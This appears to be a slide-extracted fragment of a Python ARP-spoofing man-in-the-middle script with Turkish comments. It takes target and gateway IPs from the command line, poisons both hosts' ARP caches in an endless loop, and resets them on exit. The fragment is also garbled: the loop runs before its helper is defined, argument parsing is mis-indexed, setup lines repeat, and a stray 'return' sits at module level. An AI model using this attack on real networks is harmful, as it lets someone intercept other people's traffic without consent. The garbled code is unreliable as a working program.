

# MITM DEVAM
number =0
user_ips = get_user_input()
user_target_ip= user_ips.target_ip
user_gateway_ip= user_ips.gateway_ip

try:
    while True:  #Sonsuz döngü

        arp_poisoning(user_target_ip,user_gateway_ip)
        arp_poisoning(user_gateway_ip,user_target_ip)
        number+=1
        print("\rSending packets"+ str(number),end="")

        time.sleep(3) #Döngüye girmeden 3 saniye bekliyor.
except KeyboardInterrupt:
    print("\nQuit&Reset")
    reset(user_target_ip,user_gateway_ip)
    reset(user_gateway_ip,user_target_ip)

def get_user_input():
    parse_object = optparse.OptionParser()
    parse_object.add_option("-t","--target",dest="target_ip",help="Enter Target IP")
    parse_object.add_option("-g","--gateway",dest="gateway_ip",help="Enter Gateway IP")
    (options,argumenys)= parse_object.parse_args()[0]
    if not options.target_ip:
        print("Enter Target IP")
    if not options.gateway_ip:
        print("Enter Gateway IP")
    return options
number =0
user_ips = get_user_input()
user_target_ip= user_ips.target_ip
user_gateway_ip= user_ips.gateway_ip
return options